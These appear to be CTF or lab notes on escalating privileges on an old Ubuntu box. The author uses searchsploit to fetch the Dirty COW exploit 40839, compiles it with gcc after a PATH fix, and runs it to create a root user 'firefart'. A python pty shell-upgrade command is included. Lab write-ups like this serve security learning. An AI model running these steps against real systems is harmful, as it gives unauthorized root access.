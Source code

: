 System info:
```bash
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Tmp folder contains an executable *RXgtm*:
![[Pasted image 20240421121033.png]]
=> nay

User sumo has sudo privs:
![[Pasted image 20240421134854.png]]

Linpeas shows that system might be vulnerable to dirty cow exploit.
Download exploit:
```bash
searchsploit -m 40839
```

Upload the exploit to the machine and compile it:
```bash
gcc -pthread 40839.c -o dirty -lcrypt
```
Error:
```bash
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
Fix:
```bash
export PATH="$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.8/"
```

Run the exploit:
![[Pasted image 20240421140056.png]]

It created a new root user "firefart" with our supplied password "sumo":
![[Pasted image 20240421140150.png]]

If you cant `su` upgrade the shell, run the below command and try again:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
